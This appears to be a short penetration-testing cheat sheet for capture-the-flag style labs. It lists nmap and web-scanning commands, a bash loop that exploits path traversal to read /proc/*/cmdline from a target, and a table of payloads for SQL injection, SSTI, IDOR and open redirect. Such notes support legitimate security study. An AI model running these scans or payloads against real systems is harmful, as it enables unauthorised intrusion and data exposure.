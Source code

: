 ```
nmap -sT -p- airplane.thm -T4
nmap -T4 -n -sC -sV -Pn -p-

```

### Web
```
gobuster dir -u https://my.target.site -w /usr/share/wordlists/dirb/big.txt
nikto -h https://my.target.site -p [port]
nuclei -target https://my.target.site -rl 4 # default script with rate limit
nuclei -u https://my.target.site -t myscript.yaml -t myscript_2.yaml <...> -t cves/ -t Exposure/
ffuf -u https://my.target.site/FUZZ -w /path/to/your/wordlist.txt -mc 200
```

### AD

### Linux

### 

```
$ for i in {1..1000}; do echo -n "\r$i"; out=$(curl -s "https://my.target.site?page=../../../../../proc/$i/cmdline" | sed 's/\x00/ /g' | grep -v 'Page not found'); if [ -n "$out" ]; then echo "\r$i : $out"; fi; done
```

|Findings     |Possible vector         |
|-------------|------------------------|
|/?file=      |LFI PathTraversal|
|/profile?id=2|IDOR|
|Content-Type: application/x-www-form-urlencoded <br>message={{7*7}}|SSTI|
|product_id=1001&quantity=-1|BuzLogic|
|username=admin&password=' OR '1'='1|SQLi|
|/redirect?url=http://malicious.com|OpenRedirect|
|Cookie: session=user1|Misconfig, UnsecureCookie|

### Next steps
https://book.hacktricks.xyz/

